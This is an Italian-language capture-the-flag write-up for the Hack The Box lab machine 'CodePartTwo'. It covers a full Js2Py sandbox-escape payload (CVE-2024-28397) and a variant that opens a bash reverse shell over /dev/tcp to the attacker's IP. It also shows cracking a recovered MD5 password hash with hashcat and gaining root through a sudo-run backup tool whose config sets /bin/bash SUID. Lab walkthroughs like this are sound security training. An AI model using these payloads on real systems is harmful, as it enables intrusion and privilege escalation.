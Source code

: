 # Macchina CodePartTwo

IP vittima: 10.10.11.82 

IP attacante: 10.10.14.14

## Recon

`sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.82 -oG porte`
`nmap -sC -sV -p8000 10.10.11.82 -oN servizi`

## Porte e Servizi

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017205234.png)

## Porta 8000

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017205344.png)

- Scaricare l'app per analizzarla

- Registrarsi con nome utente e password qualsiasi e accedere
  ![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017205545.png)
  
  ## Analisi app
  
  Una volta scaricata e unzippata l'app, nella sua cartella si trova il file **requirements.txt**
  ![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017210047.png)
  
  ### exploit js2py 0.74 ( CVE-2024-28397 )

- **CVE**: **CVE-2024-28397**.  
    Colpisce **Js2Py ≤ 0.74** e consente **Remote Code Execution** (sandbox escape) anche quando si usa `js2py.disable_pyimport()` per “blindare” l’ambiente. Un attaccante può ottenere un riferimento ad oggetti Python dall’interno del codice JavaScript e arrivare a eseguire comandi (es. via `subprocess.Popen`). [nvd.nist.gov+2GitHub+2](https://nvd.nist.gov/vuln/detail/CVE-2024-28397?utm_source=chatgpt.com)

- **Stato patch**: l’upstream su PyPI è fermo alla **0.74** (nov 2022) e i tracker indicano **nessuna versione ufficiale corretta**; alcune distro hanno backportato fix nei loro pacchetti (aggiornamenti SUSE/Mageia). In pratica: su PyPI non esiste ancora un rilascio “0.75/patchato” del progetto originale. [Linux Security+3PyPI+3GitHub+3](https://pypi.org/project/Js2Py/?utm_source=chatgpt.com)

- **PoC e dettagli tecnici**: il PoC pubblico mostra come bypassare `disable_pyimport()` sfruttando una variabile globale/oggetto interno per risalire a oggetti Python e uscire dal sandbox. Il repository del ricercatore include anche una patch “non ufficiale”/workaround. [GitHub](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape?utm_source=chatgpt.com)

Vedi questa git hub `https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py`

Il payload da sfruttare è questo:

```javascript
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

### Sfruttare il payload

Questo è il payload precedente con inserita la reverse shell sulla porta 4500 ( `bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/4500` )

```javascript
"code":"let cmd = \"bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/4500 <&1'; \"\nlet hacked, bymarve, n11\nlet getattr, obj\n\nhacked = Object.getOwnPropertyNames({})\nbymarve = hacked.__getattribute__\nn11 = bymarve(\"__getattribute__\")\nobj = n11(\"__class__\").__base__\ngetattr = obj.__getattribute__\n\nfunction findpopen(o) {\n    let result;\n    for(let i in o.__subclasses__()) {\n        let item = o.__subclasses__()[i]\n        if(item.__module__ == \"subprocess\" && item.__name__ == \"Popen\") {\n            return item\n        }\n        if(item.__name__ != \"type\" && (result = findpopen(item))) {\n            return result\n        }\n    }\n}\n\nn11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()\nconsole.log(n11)\nn11"
```

Mettersi in ascolto sulla porta 4500 `nc -nlvp 4500`
Andare sulla dashboard del sito e lanciare `run code` bloccandolo con la **Burpsuite**
In Burpsuite sostituire il "code" con il payload e fare **farward**
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017212338.png)
Arriva la shell e siamo dentro.
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017212805.png)

### User marco

Esaminiamo **passwd** con `cat /etc/passwd` e troviamo lo user marco
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017213121.png)
Andiamo nella cartella `/tmp/` e scarichiamo [[linpeas]](mettere su un server python nella cartella del nostro PC che lo contiene e scaricarlo nella cartella /tmp/ del computer vittima con wget ).
Una volta scaricato dargli i permessi di esecuzione e lanciarlo.

Linpeas trova dei db che potrebbero contenere informazioni interessanti
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017222826.png)
soprattutto il file `users.db`
Esaminiamolo con `sqlite3`:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017223957.png)
Troviamo due hash md5 (soprattutto quello di marco) che possiamo provare a craccare con[[hashcat]]
`hashcat -m 0 649c9d65a206a75f5abe509fe128bce5 /usr/share/wordlists/rockyou.txt`
Troviamo la password `sweetangelbabylove`
Quindi possiamo usare lo user `marco` e la sua password per connetterci con ssh
Nella cartella `/home/marco` troviamo la userflag nel file `user.txt`

## Scalata dei privilegi

Linpeas aveva trovato anche il file `npbackup-cli` che potrebbe essere sfruttato
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017230659.png)

con `sudo -l` vediamo che l'utente marco può lanciare il file npbackup-cli come sudo senza password:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017232022.png)
Quindi può essere sfruttato per scalare i privilegi.

### Script /usr/local/bin/npbackup-cli

questo è lo script python npbackup-cli

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import re
import sys
from npbackup.__main__ import main
if __name__ == '__main__':
    # Block restricted flag
    if '--external-backend-binary' in sys.argv:
        print("Error: '--external-backend-binary' flag is restricted for use.")
        sys.exit(1)

    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

Vediamo che lo script importa `main` da `npbackup.__main__` 
Proviamo a cercare `npbackup` per trovare `__main__`
`find / -name "npbackup" -type d 2>/dev/null`
Lo troviamo in `/usr/local/lib/python3.8/dist-packages/npbackup`

Se lanciamo `npbackup-cli` vediamo che per funzionare necessita di un file di configurazione:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017233800.png)
Lanciando l'help di `npbackup-cli` vediamo che può essere lanciato fornendo l'indirizzo del file di configurazione, che potrebbe essere modificato per lanciare dei comandi con i permessi root
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017234158.png)
Proviamo a cercare un file di configurazione da modificare:
`find / -name "*npbackup*conf*" -type f 2>/dev/null`
Lo troviamo in `/home/marco/npbackup.conf`

### Exploit

copiamo il file di configurazione copiato in /tmp/
`cp /home/marco/npbackup.conf /tmp/exploit.conf`
Modifichiamo la parte iniziale del file `exploit.conf` inserendo i comandi 

```bash
pre_exec_commands:
      - chmod +s /bin/bash
```

in questo modo:

```bash
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: /tmp/repo
    repo_group: default_group
    backup_opts:
      paths:
      - /tmp/backup_source
      source_type: folder_list
      exclude_files_larger_than: 0.0
      pre_exec_commands:
      - chmod +s /bin/bash
    repo_opts:
      repo_password: test123
```

poi lanciamo lo script:
`sudo /usr/local/bin/npbackup-cli -c /tmp/exploit.conf --backup`
e il comando
`/bin/bash -p`
Per diventare root
Nella cartella `/root` troviamo la rootflag nel file `root.txt` 

